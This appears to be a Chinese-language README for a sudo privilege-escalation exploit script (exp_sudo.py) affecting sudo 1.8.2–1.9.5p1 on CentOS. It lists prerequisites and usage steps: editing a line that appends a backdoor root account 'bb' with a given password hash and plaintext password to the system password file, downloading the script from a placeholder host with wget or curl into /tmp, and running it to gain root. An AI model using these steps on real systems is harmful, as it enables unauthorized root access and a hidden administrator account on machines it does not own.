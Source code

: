 影响版本：
```
Sudo 1.8.2 - 1.8.31p2
Sudo 1.9.0 - 1.9.5p1

可执行sudo -V查看sudo版本
```
测试版本：
```
CentOS Linux release 7.6.1810 (Core)
```
先决条件：
```
1、目标中有python解释器（CentOS默认即存在）
2、目标能出网或者能将文件上传到目标
```
具体用法：
```
1、修改exp_sudo.py中下面这一行
APPEND_CONTENT = b"bb:$1$84DoAMTs$ruLlLQlSCtlMm9Y17oHPn1:0:0:gg:/root:/bin/bash\n";
此处的用户名/密码：bb/shenlan1，可在CentOS7.6中创建用户后拷贝到此处替换密码
2、wget -O /tmp/exp_sudo.py http://xx.xx.xx.xx:8000/exp_sudo.py 或者 curl -o /tmp/exp_sudo.py http://xx.xx.xx.xx:8000/exp_sudo.py
3、python /tmp/exp_sudo.py
```

参考连接：  
Centos7/Centos8 sudo 提权脚本：https://www.o2oxy.cn/3490.html  
